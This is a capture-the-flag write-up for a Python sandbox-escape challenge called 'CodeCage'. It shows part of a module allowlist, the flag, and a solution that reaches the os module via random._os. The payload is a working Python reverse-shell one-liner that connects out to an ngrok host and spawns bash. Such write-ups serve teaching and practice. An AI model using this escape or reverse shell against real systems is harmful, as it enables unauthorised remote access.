

# Solution to CodeCage Challenge
**Category**: Web Exploitation  
**Flag**: `VSL{all0w_3sc4p3_1s_fun_hehe_00e0dcbd5!}`

## Description

This is a place for you to test your coding skills and explore interesting things in a safe environment. Don't forget to solve the CAPTCHA to get started, and remember that all your actions must comply with security principles.

## Code
```python
ALLOWED_MODULES = {
    'abc',
    'aifc',
    'argparse',
    'array',
    'ast',
    'audioop',
    'base64',
    'calendar',
    'cmath',
    'code',
    'codecs',
    'copy',
    ...
}
```
## Solution

### 1. Analyzing the `random` Module
Upon inspecting the `random` module, it becomes evident that it has a linkage to the `_os` module. This association presents an opportunity to exploit and execute Remote Code Execution (RCE) within the sandbox environment.



---

### 2. Exploiting with Reverse Shells
We use reverse shells (`revshells`) to exploit the vulnerability and gain access to the `flag.txt` file.


---

### 3.Payload

```python
import random
print(random._os.system("""export RHOST="0.tcp.ap.ngrok.io";export RPORT=19396;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'"""))
```
---

### Key Insight
This challenge can also be solved by directly reading the `flag.txt` file. The primary reason is that the author made a custom implementation error. 😅
